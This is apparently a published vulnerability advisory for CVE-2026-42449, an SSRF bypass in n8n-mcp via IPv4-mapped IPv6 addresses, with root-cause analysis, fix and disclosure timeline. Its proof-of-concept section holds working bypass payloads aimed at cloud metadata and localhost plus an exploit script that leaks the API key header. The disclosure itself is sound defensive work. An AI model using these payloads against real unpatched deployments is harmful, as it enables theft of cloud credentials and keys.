



# CVE-2026-42449: SSRF Bypass via IPv6-Mapped Addresses in n8n-mcp

## TL;DR

A Server-Side Request Forgery (SSRF) vulnerability in n8n-mcp allows attackers to bypass all SSRF protections using IPv4-mapped IPv6 addresses. The sync validation method has zero IPv6 checks, enabling access to cloud metadata services, internal networks, and localhost - with full response reflection and API key leakage.

| | |
|---|---|
| **CVE ID** | CVE-2026-42449 |
| **CVSS 3.1** | 8.5 HIGH |
| **CWE** | CWE-918: Server-Side Request Forgery (SSRF) |
| **Affected** | n8n-mcp < 2.47.14 |
| **Fixed** | n8n-mcp 2.47.14+ |

---

## What is n8n-mcp?

[n8n-mcp](https://github.com/n8n-io/n8n-mcp) is an MCP (Model Context Protocol) server that exposes n8n workflow automation capabilities to AI agents. It allows LLMs to manage workflows, credentials, and executions through a standardized protocol.

The server includes SSRF protection to prevent malicious requests to internal services - or so it should.

---

## The Vulnerability

The `SSRFProtection.validateUrlSync()` method contains **zero IPv6 address validation**. While it correctly blocks IPv4 addresses like `169.254.169.254` and `127.0.0.1`, it completely misses their IPv6-mapped equivalents.

### The Bypass

```
Blocked:  http://169.254.169.254        ❌
Bypassed: http://[::ffff:169.254.169.254] ✅

Blocked:  http://127.0.0.1              ❌
Bypassed: http://[::ffff:127.0.0.1]     ✅

Blocked:  http://10.0.0.1               ❌
Bypassed: http://[::ffff:10.0.0.1]      ✅
```

### Root Cause

The validation in `src/utils/ssrf-protection.ts` checks against:

1. `CLOUD_METADATA` - Set of hostname strings (e.g., `"169.254.169.254"`)
2. `LOCALHOST_PATTERNS` - Set of hostname strings (e.g., `"127.0.0.1"`, `"::1"`)
3. `PRIVATE_IP_RANGES` - Array of **IPv4-only regexes** (e.g., `/^169\.254\./`, `/^10\./`)

When a URL like `http://[::ffff:169.254.169.254]` is parsed by Node.js's `URL` constructor, the hostname becomes `::ffff:169.254.169.254` (brackets stripped). This string:

- Is NOT in the `CLOUD_METADATA` set (which contains `"169.254.169.254"`, not the IPv6-mapped form)
- Is NOT in `LOCALHOST_PATTERNS`
- Does NOT match any regex in `PRIVATE_IP_RANGES` (all patterns are IPv4-only)

The async `validateWebhookUrl()` method has IPv6 checks that catch `::ffff:` prefixed addresses. However, `validateUrlSync()` - used by SDK embedders - has none.

---

## Attack Scenario

### Who's Affected

Third-party developers embedding n8n-mcp as an SDK using `N8NDocumentationMCPServer` or `N8NMCPEngine` with user-supplied `InstanceContext`. The first-party HTTP server has a secondary async check, but SDK users only get the vulnerable sync validation.

### The Attack

1. Attacker provides a malicious `n8nApiUrl` containing an IPv6-mapped address
2. `validateUrlSync()` approves the URL (bypass successful)
3. The SDK makes requests to the attacker-controlled internal endpoint
4. **API keys are leaked** via the `x-n8n-api-key` header
5. **Full response bodies** are returned to the attacker (non-blind SSRF)

---

## Impact

This SSRF vulnerability allows an attacker to:

| Impact | Description |
|--------|-------------|
| **Cloud Metadata Access** | Exfiltrate IAM credentials, instance identity tokens from AWS IMDS (`169.254.169.254`), GCP, Azure, etc. |
| **Internal Network Scanning** | Reach RFC1918 private addresses (`10.x`, `172.16.x`, `192.168.x`) to discover internal services |
| **Localhost Access** | Reach services bound to `127.0.0.1` - databases, admin panels, other MCP servers |
| **API Key Leakage** | The `n8nApiKey` is forwarded in headers with every request, leaking credentials |
| **Full Response Reflection** | Non-blind SSRF - complete response bodies from internal services are returned |

---

## Proof of Concept

### Environment

- **n8n-mcp:** < 2.47.14 (vulnerable)
- **Node.js:** 18+
- **OS:** Linux

### Step 1: Unit Test - Prove the Bypass

```javascript
// 01-unit-test.js
const { SSRFProtection } = require('./dist/utils/ssrf-protection');

const payloads = [
  'http://169.254.169.254',           // BASELINE: should be blocked
  'http://[::ffff:169.254.169.254]',  // IPv6-mapped cloud metadata
  'http://[::ffff:127.0.0.1]:5678',   // IPv6-mapped localhost
  'http://[::ffff:10.0.0.1]',         // IPv6-mapped private (10.x)
  'http://[::ffff:192.168.1.1]',      // IPv6-mapped private (192.168.x)
  'http://[::ffff:172.16.0.1]',       // IPv6-mapped private (172.16.x)
  'http://127.0.0.1',                 // BASELINE: should be blocked
];

console.log('=== validateUrlSync (NO DNS, sync only) ===\n');
for (const url of payloads) {
  const result = SSRFProtection.validateUrlSync(url);
  const status = result.valid ? 'PASS (BYPASS!)' : `BLOCKED: ${result.reason}`;
  console.log(`${url}\n  -> ${status}\n`);
}
```

**Output:** All `::ffff:` URLs return `PASS (BYPASS!)` while baselines are correctly blocked.



### Step 2: Start a Fake Internal Service

```javascript
// 02-fake-service.js
const http = require('http');
const server = http.createServer((req, res) => {
  console.log('\n=== SSRF HIT! ===');
  console.log('Method:', req.method);
  console.log('URL:', req.url);
  console.log('Headers:', JSON.stringify(req.headers, null, 2));
  res.writeHead(200, {'Content-Type': 'application/json'});
  res.end(JSON.stringify({data: [{id: "SSRF-PROVEN", name: "pwned-workflow", active: true}]}));
});
server.listen(7777, '0.0.0.0', () => console.log('Listening on port 7777'));
```

### Step 3: Full SSRF Exploitation

```javascript
// 03-exploit.js
const { N8NDocumentationMCPServer } = require('./dist/mcp/server');
const { getN8nApiClient } = require('./dist/mcp/handlers-n8n-manager');

(async () => {
  const maliciousContext = {
    n8nApiUrl: 'http://[::ffff:127.0.0.1]:7777',
    n8nApiKey: 'fake-api-key-for-poc',
    instanceId: 'ssrf-poc-instance'
  };

  // Constructor accepts malicious URL - validateUrlSync bypassed
  const server = new N8NDocumentationMCPServer(maliciousContext);
  await new Promise(r => setTimeout(r, 2000));

  // getN8nApiClient uses validateInstanceContext (sync only) - no async SSRF check
  const client = getN8nApiClient(maliciousContext);
  if (client) {
    try {
      const result = await client.listWorkflows();
      console.log('SSRF SUCCESSFUL - Response:', JSON.stringify(result, null, 2));
    } catch (err) {
      console.log('Request attempted:', err.message);
    }
  }
})();
```

**Result:** The fake service receives the request with the `x-n8n-api-key` header leaked. Full response body returned to attacker.





---

## The Fix

Fixed in **n8n-mcp v2.47.14** by adding IPv6 validation to `validateUrlSync()`:

```typescript
// Added to validateUrlSync in src/utils/ssrf-protection.ts:
if (hostname === '::1' || hostname === '::' ||
    hostname.startsWith('fe80:') ||
    hostname.startsWith('fc00:') ||
    hostname.startsWith('fd00:') ||
    hostname.startsWith('::ffff:')) {
  return { valid: false, reason: 'IPv6 private/mapped address not allowed' };
}
```

### Update Instructions

```bash
npm update @n8n/n8n-mcp
# or
npm install @n8n/n8n-mcp@latest
```

---

## Timeline

| Date | Event |
|------|-------|
| 2026-04-20 | Vulnerability discovered during mcpsec audit |
| 2026-04-20 | Reported via GitHub Security Advisory |
| 2026-04-21 | Fix merged, v2.47.14 released |
| 2026-04-25 | **CVE-2026-42449** assigned |

---

## References

- **CVE Record:** [CVE-2026-42449](https://www.cve.org/CVERecord?id=CVE-2026-42449)
- **NVD:** [nvd.nist.gov/vuln/detail/CVE-2026-42449](https://nvd.nist.gov/vuln/detail/CVE-2026-42449)
- **GitHub Advisory:** [GHSA-56c3-vfp2-5qqj](https://github.com/advisories/GHSA-56c3-vfp2-5qqj)
- **Previous SSRF Fix Bypassed:** GHSA-4ggg-h7ph-26qr

---

## Acknowledgments

Thanks to @czlonkowski for the quick response and fix within 24 hours of the report.

---

## Discovery

This vulnerability was discovered using [**mcpsec**](https://github.com/manthanghasadiya/mcpsec), an open-source security scanner for MCP server implementations.
